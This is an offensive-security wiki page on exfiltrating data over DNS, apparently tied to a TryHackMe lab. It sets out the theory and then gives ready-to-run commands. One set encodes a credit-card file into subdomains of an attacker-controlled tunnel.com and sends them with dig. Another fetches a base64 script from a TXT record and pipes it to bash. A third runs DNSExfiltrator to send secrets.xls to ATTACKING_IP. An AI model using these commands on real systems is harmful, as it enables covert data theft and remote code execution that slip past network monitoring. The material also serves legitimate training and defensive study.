 # Over DNS

## Theory
The DNS protocol is a common protocol and Its primary purpose is to resolve domain names to IP addresses and vice versa. Even though the DNS protocol is not designed to transfer data, threat actors found a way to abuse and move data over it.  
Since DNS is not a transport protocol, many organizations don't regularly monitor the DNS protocol! The DNS protocol is allowed in almost all firewalls in any organization network. For those reasons, threat actors prefer using the DNS protocol to hide their communications.

### Limitations

The DNS protocol has limitations that need to be taken into consideration, which are as follows,

- The maximum length of the Fully Qualified FQDN domain name (including .separators) is 255 characters.
- The subdomain name (label) length must not exceed 63 characters (not including .com, .net, etc).

### Scenario

Now let's discuss the Data Exfiltration over DNS requirements and steps, which are as follows:  
1 - An attacker registers a domain name, for example, tunnel.com  
2 - The attacker sets up tunnel.com's NS record points to a server that the attacker controls.  
3 - The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.  
4 - The DNS request is sent through the local DNS server and is forwarded through the Internet.  
5 - The attacker's authoritative DNS (malicious server) receives the DNS request.  
6 - Finally, the attacker extracts the password from the domain name.  

## Practice

We concider that a NS record named `t1.tunnel.com` as been registred. It's poiting the Attacking IP.
{% tabs %}
{% tab title="Manualy" %}
In order to receive any DNS request on the attacking machine, we need to capture the network traffic for any incoming UDP/53 packets using the [tcpdump](https://github.com/the-tcpdump-group/tcpdump) tool.  
```bash
v4resk@kali$ sudo tcpdump -i eth0 udp port 53 -v 
```
On the victim machine, we first encode datas that need to be send, and split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach it as a subdomain name.
```bash
# Methode 1
victim@pwnd.lab$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.t1.tunnel.com/' > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.t1.tunnel.com
IKQWRkcmVzczogMTIz.t1.tunnel.com
NCBJbnRlcm5ldCwgVE.t1.tunnel.com
hNCkNyZWRpdCBDYXJk.t1.tunnel.com
OiAxMjM0LTEyMzQtMT.t1.tunnel.com
IzNC0xMjM0CkV4cGly.t1.tunnel.com
ZTogMDUvMDUvMjAyMg.t1.tunnel.com
pDb2RlOiAxMzM3Cg==.t1.tunnel.com

#Methode 2
victim@pwnd.lab$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com
```
In order to send this datas, on the compromised host we can do:
```bash
victim@pwnd.lab$ cat toExfiltrate.txt | awk '{print "dig +short " $1}' | bash
```

Finally, on the attacking machine, we can decrypt datas as follow:
```bash
v4resk@kali$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
```
{% endtab %}

{% tab title="Command Execution" %}
Let's see how can tunneling code execution via the DNS protocol.
We first need to create a TXT record containing our script encoded in base64. Let's take`script.tunnel.com` as example.

```bash
#Check if the TXT record is well configured
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com
"IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="

#Execution over DNS
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```
{% endtab %}

{% tab title="DNSExfiltrator" %}
[DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator) allows for transfering (exfiltrate) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.  
On the attacking machine we do:
```bash
v4resk@kali$ ./dnsexfiltrator.py -d mydomain.com -p password
```
On the compromised host:
```bash
dnsExfiltrator.exe secrets.xls mydomain.com password s=ATTACKING_IP t=500
```
{% endtab %}
{% endtabs %}

### DNS Tunneling
An other methode is to tunneling other protocols over DNS. Check this page for more details.
{% content-ref url="../pivoting/dnsTunneling.md" %}
[dnsTunneling.md](../pivoting/dnsTunneling.md)
{% endcontent-ref %}


## Resources
{% embed url="https://tryhackme.com/room/dataxexfilt" %}
